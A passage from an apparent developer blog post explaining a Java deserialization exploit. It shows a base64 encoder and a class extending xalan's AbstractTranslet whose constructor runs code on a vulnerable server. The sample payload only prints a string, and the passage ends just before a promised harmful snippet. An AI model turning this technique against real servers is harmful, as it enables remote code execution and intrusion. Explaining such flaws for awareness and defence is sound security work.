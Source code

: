 ![Bad request]({{ "/assets/posts/2019-01-25-security-exploits/workflow.png" | absolute_url }})

If you want to try this on your own just compile a Java class and use any converter to create a base64 based string out of the content of the class file.
If you want to can even create such tool by yourself with some lines of Java code:

{% highlight java %}
public class Encoder {

    public static void main(String[] args) throws Exception {
        byte[] classBytes = Files.readAllBytes(new File("target/classes/com/karakun/dev/Bomb.class").toPath());
        byte[] encodedBytes = Base64.getEncoder().encode(classBytes);
        System.out.println(new String(encodedBytes));
    }
}
{% endhighlight %}

The given code directly prints the base64 encoded string as output of the programm to your terminal.
If you want to do this with a class that you can use for the exploit you need to extend a specific class that is defined by xalan.
By extending the abstract `org.apache.xalan.xsltc.runtime.AbstractTranslet` class you do not need to think about the 2 methods you need to implement and can just leave the body of this methods empty.
The really interesting part is the constructor of your class.
Here you can easily add some custom code like I did in the follwoing sample:

{% highlight java %}
public class Bomb extends org.apache.xalan.xsltc.runtime.AbstractTranslet {

    public Bomb() {
      super.transletVersion = CURRENT_TRANSLET_VERSION;

      //Now we can do evil stuff
      System.out.println("BOOOOOOOOM!");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
{% endhighlight %}

If you transform such class to a base64 string as described above and send it to your server application the constructor of your custom class will be called on the server.
With the given example the server would print "BOOOOOOOOM!" as output in the terminal.
Before we have a look at the internals and how this is even possible think about the evil potential of this security issue.
Instead of just printing a funny string we could write an algorithm that does horrible things on your system as you can see in the following code snippet:
